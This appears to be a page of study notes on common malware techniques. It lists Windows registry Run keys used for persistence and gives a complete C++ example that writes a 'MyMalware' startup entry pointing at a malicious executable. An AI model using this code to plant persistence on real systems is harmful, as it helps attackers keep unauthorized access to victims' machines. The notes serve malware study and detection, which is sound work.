 # Index 
- [[3. Common Malware Techniques]]
	- [[3.1 Process Injection Techniques]]
	- [[3.2 Persistence Mechanisms]]
	- [[3.3 Hooking Windows APIs]]
	- [[3.4 Packing & Encryption]]

# Registry-based Persistence
Windows registry is a prime target for malware to achieve persistence due to the wide variety of locations where executables can be configured to run automatically on system startup.

#### Common Registry Keys for Persistence
1. Run and RunOnce Keys:
   - `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`
   - `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`
   - These keys allow programs to execute automatically upon user login.

#### Example: Adding an Entry to the `Run` Key in C++
```cpp
#include <windows.h>
#include <iostream>

int main() {
    HKEY hKey;
    const char* keyPath = "Software\\Microsoft\\Windows\\CurrentVersion\\Run";
    const char* valueName = "MyMalware";
    const char* exePath = "C:\\path_to_malicious_executable.exe";

    // Open the registry key
    if (RegOpenKeyEx(HKEY_CURRENT_USER, keyPath, 0, KEY_WRITE, &hKey) != ERROR_SUCCESS) {
        std::cerr << "Failed to open registry key." << std::endl;
        return -1;
    }

    // Set the value for the executable to run at startup
    if (RegSetValueEx(hKey, valueName, 0, REG_SZ, (BYTE*)exePath, strlen(exePath) + 1) != ERROR_SUCCESS) {
        std::cerr << "Failed to set registry value." << std::endl;
        RegCloseKey(hKey);
        return -1;
    }

    std::cout << "Persistence established!" << std::endl;

    // Cleanup
    RegCloseKey(hKey);
    return 0;
}
```

